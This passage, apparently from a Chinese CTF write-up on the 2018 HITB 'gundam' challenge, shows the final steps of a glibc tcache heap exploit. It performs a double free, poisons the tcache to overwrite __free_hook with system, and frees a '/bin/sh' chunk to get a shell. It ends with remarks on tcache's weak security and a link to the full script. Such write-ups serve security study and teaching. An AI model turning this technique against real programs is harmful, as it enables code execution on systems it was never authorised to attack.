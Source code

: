 再将free_hook改写为system

```
destory(1)
destory(1)

build(p64(free_hook),1)#0
build('/bin/sh',1)#1
build(p64(system),1)#2
```

最后调用free函数就相当于调用system函数了，实现get shell

```
destory(0,False)
```

完整脚本[在此](https://github.com/moonAgirl/CTF/tree/master/2018/Hitbxctf/gundam)

# 总结

Tcache是glibc malloc的一个有趣的补充，可提供很明显的性能优势。但是，对于内存分配的安全状态，似乎还有一些倒退的迹象，使得安全性变得极低。这种矛盾表明在性能和安全性之间取得良好的平衡是很困难。对于我们CTFer来说，这倒是一个好消息。

```
参考：http://tukan.farm/2017/07/08/tcache/
```